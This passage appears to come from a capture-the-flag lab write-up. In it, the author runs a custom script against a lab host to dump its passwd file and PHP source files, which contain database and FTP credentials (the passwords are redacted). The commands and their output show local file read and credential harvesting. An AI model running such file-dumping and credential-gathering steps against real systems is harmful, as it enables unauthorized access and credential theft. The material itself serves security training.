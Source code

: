 Discovered a new user called *pain*, and confirmed our thoughts about the *chiv* user.

```bash
cat passwd.dmp | grep sh$

root:x:0:0:root:/root:/bin/bash
pain:x:1000:1000:pain:/home/pain:/bin/bash
chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash
```

Gathered a hash from the *config.php* file (or a very long password XD).

```bash
python3 forwardslash.py -t 10.129.190.235 -f config.php    

[+] Logged in as dusk:dusk1234

[+] Dumping config.php:

<?php
//credentials for the temp db while we recover, had to backup old config, didn't want it getting compromised -pain
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'www-data');
define('DB_PASSWORD', '<REDACTED>');
...

[+] Script finished successfully
```

Gathered even more credentials from the */dev* endpoint that we couldn’t access earlier.

```bash
python3 forwardslash.py -t 10.129.190.235 -f dev/index.php                                                             

[+] Logged in as dusk:dusk1234

[+] Dumping dev/index.php:

<?php

if ($_SERVER['REQUEST_METHOD'] === "GET" && isset($_GET['xml'])) {

                if (@ftp_login($conn_id, "chiv", '<REDACTED>')) {

                        error_log("Getting file");
                        echo ftp_get_string($conn_id, "debug.txt");
                }

                exit;
  }
...

[+] Script finished successfully
```
